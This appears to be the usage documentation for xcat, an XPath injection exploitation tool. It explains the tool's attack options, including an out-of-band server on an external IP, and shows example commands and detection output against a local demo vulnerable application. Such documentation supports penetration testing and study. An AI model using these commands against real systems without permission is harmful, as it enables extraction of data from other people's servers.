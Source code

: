 # Common options

All commands except `ip` take the same arguments. These describe the attack you are making, 
and allows xcat to explore it and work out what features it can use.

At _minimum_ you need to supply:

- A URL to attack (`url`)
- A target parameter which is vulnerable to XPath injection (`target_parameter`)
- A value for this parameter, and optionally others if required (`parameters`)
- A string or a status code that is present in the response if the condition is True (`--true-string` and `--true-code`)

For example, to attack the [example vulnerable application](https://github.com/orf/xcat_app) you would use:

`xcat run http://localhost:4567/ query query=Rogue --true-string=Lawyer` 

This instructs `xcat` that:

- The vulnerable URL is `http://localhost:4567/`
- The vulnerable parameter is `query`
- The parameters to pass to the URL are `query=Rogue`
- The true condition is `Lawyer` being present in the response

## Additional options

#### `--headers`

This argument can be used to send custom headers, including cookies. It should be a file path to a plain text 
file containing lines in the following format:

```text
Header-Name: header-value
```

**Example:** `xcat run ... --headers=my-header-file.txt`

#### `--body`

This argument is a path to a file containing a request body to send. This is helpful if you are exploiting a 
POST request that has a vulnerable URL parameter, but also require a POST body to be sent. The file contents 
are sent as-is.

**Example:** `xcat run ... --headers=my-request-body.txt`

#### `--encode`

XCat currently supports manipulating either URL or form parameters. This allows you to switch between 
sending the exploit payload via the POST body or URL arguments.

**Example:** `xcat run ... --encode=form`

#### `--fast`

When this flag is present then XCat will only retrieve the first 15 characters of strings. This can drastically speed
up retrieval in documents that contain very large strings.

**Example:** `xcat run ... --fast`

#### `--concurrency`

This parameter limits the number of concurrent connections xcat can make. Setting it too low will slow down 
exploitation, but can reduce the load on the target server.

**Example:** `xcat run ... --concurrency=10`

#### `--enable/--disable`

XCat attempts to intelligently detect what features the target server supports and uses these to speed up 
retrieval. These flags let you force enable or disable these features.

**Example:** `xcat run ... --enable=substring-search`

#### `--oob`

Enables the `oob` server. For more info see [the oob server documentation.](oob.md)

**Example:** `xcat run ... --oob=$EXTERNAL_IP:$EXTERNAL_PORT`

# Detect

This command will print out what injection XCat has detected, as well as a list of features and their status. You 
can use this to quickly explore an injection and different parameter values before commencing an attack.

```shell
user:~$ xcat detect http://localhost:4567/ query query=Rogue --true-string=Lawyer

function call - last string parameter - single quote
 - Example: /lib/something[function(?)]
Detected features:
 - xpath-2: True
 - xpath-3: False
 - xpath-3.1: False
 - normalize-space: True
 - substring-search: True
 - codepoint-search: True
 - environment-variables: False
 - document-uri: True
 - base-uri: True
 - current-datetime: True
 - unparsed-text: False
 - doc-function: True
 - linux: False
 - expath-file: False
 - saxon: False
 - oob-http: False
 - oob-entity-injection: False
``` 
